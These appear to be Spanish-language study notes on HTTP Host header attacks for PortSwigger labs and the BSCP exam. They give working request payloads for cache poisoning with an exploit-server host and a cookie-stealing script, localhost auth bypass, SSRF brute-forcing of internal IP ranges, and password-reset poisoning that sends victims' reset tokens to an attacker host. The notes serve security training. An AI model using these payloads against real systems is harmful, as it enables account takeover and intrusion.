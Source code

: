 <hr>
## Qué es la cabecera HTTP Host?

La cabecera HTTP Host es una cabecera de solicitud obligatoria a partir de HTTP/1.1. Especifica el nombre de dominio a la que el cliente quiere acceder. Por ejemplo, cuando un usuario visita `https://portswigger.net/web-security`, su navegador compondrá una solicitud que contiene una cabecera de Host de la siguiente manera:

```
GET /web-security HTTP/1.1
Host: portswigger.net
```

En algunos casos, como cuando la solicitud ha sido remitida por un sistema de intermediarios, el valor de los hostels puede modificarse antes de que llegue al componente de back-end previsto. A continuación se discutirá este escenario con más detalle.

## Qué es un ataque de cabecera HTTP Host?

Los ataques de encabezados HTTP Host explotan sitios web vulnerables que manejan el valor de la cabecera de Host de una manera insegura. Si el servidor confía implícitamente en la cabecera de Host, y no lo valida o escapa adecuadamente, un atacante puede ser capaz de utilizar este intromisivo para inyectar cargas útiles dañinas que manipulan el comportamiento del lado del servidor. Los ataques que implican inyectar una carga útil directamente en la cabecera de Host a menudo se conocen como ataques de "inyección de cabecera de hosta".

Cualquiera de estos headers a añadir. 
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`
### LAB: Host Header Web Cache Poisoning Vía Ambiguous Request `alert`

```js
//Modificar el HOST, añadiendo un cache buster de test. 
GET /?cb=jsjsj HTTP/1.1
Host: web-security-academy.net
Host: Exploit-Server.net

//En exploit server -> store & deliver exploit to victim
alert(document.cookie)

//Actualizar el request al home. 
```

### LAB: Host Header Auth Bypass `admin`

```js
//admin interface is only accesible via Local

GET /admin HTTP/1.1
Host: localhost
```

### LAB:  Host Header Routing-Based SSRF `192.168.0.0/24` `admin` `Host` out of band 

![Burp-scanner](Pasted%20image%2020250220214811.png)

Si el lab no tiene login, no tiene post comments, retorna 404 el /admin y además tampoco podemos ingresar como un user, el ataque es directamente por aqui. 

Hay algo que toca definir antes de partir a resolver el laboratorio, nos brindan una ip con su notación CIDR, sin embargo en la mayoría de casos un atacante pensaría que debería atacar a los dos últimos octetos de bits de la IP lo cual es errado, en este caso vemos un octeto de notación `/24` lo cual significa que:

```jsx
192.168.0.0/24 -> 8+8+8=24 los 3 primeros octetos están estaticos
192.168.0 (ocupados) .0 (disponible para ataque brute force)
```

- La interfaz `/admin` de por sí no existe, cuando la pongo en request retorna not found, entonces el ataque lo dirigiré por intruder con param posición en el último octeto y el endpoint en `/admin` hasta que una response me retorno 200, con los posibles numeros del 0-255 iniciando en el 1, 255 porque claro es la cantidad octeto de bits posibles de cada octeto.

![[Pasted image 20250220080835.png]]

* Desactivar el Host Header automatico & ignore.  !!!!!!!!!!!!!!!!!
* Payloads Numbers [0-255] - `GET /admin HTTP/1.1`

```js
SSRF to access admin panel somewhere in 192.168.1.0/24
-> confirm you can change host to your collaborator
-> deselect in intruder update host header to match target
-> Host: 192.168.0.§1§
```

### LAB:  SRF via flawed request parsing `192.168.1.0/24` `admin`

* Y el campo check: Update Host header to match target lo desactivo efectivamente.

```js
GET https://vulnerable-website.com/admin HTTP/1.1
Host: 192.168.0.§1§ //intruder attack
Connection: Close
Content-Length: ... etc
```

### LAB: Host validation bypass via connection state attack `Paralell Single Connection` `admin panel`

* Un ataque en repeater de tipo `Paralell Single Connection` 2 Request, una legitima la otra modificada intencionalmente. 
* (in the exam it would be probably `localhost:6566`)

```js
// REQUEST 1 -> Legitima
GET / HTTP/1.1
Host: ID-LAB.com
Connection: keep-alive

// REQUEST 2 -> Maliciosa
GET /admin HTTP/1.1
Host: 192.168.0.1
```

### Spoof IP Address Host Header

> _**Identify**_ that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.

> Include the below `X-` headers and change the username parameter on the password reset request to `Carlos` before sending the request.  
> In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

> Check the exploit server log to obtain the reset link to the victim username.

[![Exploit Server Logs capture the forgot password reset token](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/HOST-Header-forgot-password-reset.PNG)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/HOST-Header-forgot-password-reset.PNG)

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1

